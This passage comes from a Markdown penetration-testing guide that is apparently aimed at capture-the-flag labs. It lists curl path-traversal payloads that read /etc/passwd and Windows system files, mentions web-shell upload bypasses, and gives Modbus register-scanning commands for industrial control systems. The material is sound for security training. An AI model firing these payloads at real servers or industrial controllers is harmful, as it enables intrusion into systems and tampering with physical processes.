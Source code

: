 ### 2.3 Directory Traversal & File Inclusion

**Path Traversal Testing**
```bash
# Reference: Exploits.md lines 485-647 for complete LFI techniques

# Test common payloads
curl "http://[TARGET]/page?file=../../../../etc/passwd"
curl "http://[TARGET]/page?file=..%252f..%252f..%252fetc%252fpasswd"

# Windows targets
curl "http://[TARGET]/page?file=../../../../boot.ini"
curl "http://[TARGET]/page?file=C:\\Windows\\win.ini"
```

### 2.4 File Upload Exploitation

**Upload Bypass Techniques**
```bash
# Reference: Exploits.md lines 899-1051 for complete upload exploitation

# Test various extensions and MIME types
# PHP web shell upload
# JSP web shell for Java applications
# ASPX for .NET applications
```

---

## 🏭 Phase 3: Industrial Control Systems Exploitation

*Reference: [`Scripts.md`](Scripts/Scripts.md) (1,434 lines) - Complete automation arsenal*

### 3.1 Modbus Protocol Exploitation

**Deep Register Scanning**
```bash
# Use our specialized Modbus register hunter
python3 Scripts/Python/modbus_register_hunter.py --target [MODBUS_IP] --unit-id 1 --registers 0-10000 --hunt-flags

# Alternative: Manual register reading
modbus-cli --host [MODBUS_IP] read-holding-registers 0 100
```

**Flag Hunting in Modbus Registers**
```python
# Reference: Scripts/Python/modbus_network_scanner.py lines 87-122
# Flags can be hidden in register values as ASCII data
# Look for patterns: THM{}, flag{}, CTF{}
# Convert 16-bit registers to bytes and decode as ASCII
```

**Critical Register Analysis**
```bash
# Test common register ranges
# 0-99: Control registers
# 1000-1099: Setpoints
# 2000-2099: Alarms
# 40001-40100: Standard holding registers
```
